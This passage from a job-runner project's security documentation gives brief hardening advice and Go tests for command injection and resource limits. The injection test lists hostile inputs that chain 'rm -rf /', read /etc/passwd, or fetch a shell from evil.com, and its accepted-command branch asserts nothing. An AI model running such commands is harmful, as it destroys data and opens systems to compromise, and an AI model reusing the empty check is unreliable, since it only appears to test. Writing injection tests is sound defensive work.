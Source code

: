 2. **Certificate Management**
    - Use strong key sizes (2048+ RSA, 256+ ECDSA)
    - Implement certificate rotation
    - Validate certificate chains

3. **Process Isolation**
    - Use minimal privileges
    - Implement proper namespace isolation
    - Clean up resources thoroughly

### Security Testing

```go
// test/security/security_test.go
func TestCommandInjection(t *testing.T) {
maliciousCommands := []string{
"echo test; rm -rf /",
"echo test && cat /etc/passwd",
"$(curl evil.com/shell)",
"`wget evil.com/backdoor`",
}

joblet := setupTestJoblet(t)

for _, cmd := range maliciousCommands {
t.Run(fmt.Sprintf("command_%s", cmd), func (t *testing.T) {
_, err := joblet.StartJob(context.Background(), cmd, nil, 0, 0, 0)
// Should either reject the command or safely execute it in isolation
if err == nil {
// If accepted, verify it runs in isolation
// Implementation depends on command validation strategy
}
})
}
}

func TestResourceLimits(t *testing.T) {
   tests := []struct {
         name      string
         maxMemory int32
         expectErr bool
      }{
      {"normal_limit", 512, false},
      {"excessive_limit", 999999999, true},
      {"negative_limit", -1, true},
   }
   
   joblet := setupTestJoblet(t)
   
   for _, tt := range tests {
      t.Run(tt.name, func (t *testing.T) {
         _, err := joblet.StartJob(context.Background(), "echo", []string{"test"},
         0, tt.maxMemory, 0)
         
         if tt.expectErr {
           assert.Error(t, err)
         } else {
           assert.NoError(t, err)
         }
      })
   }
}

```
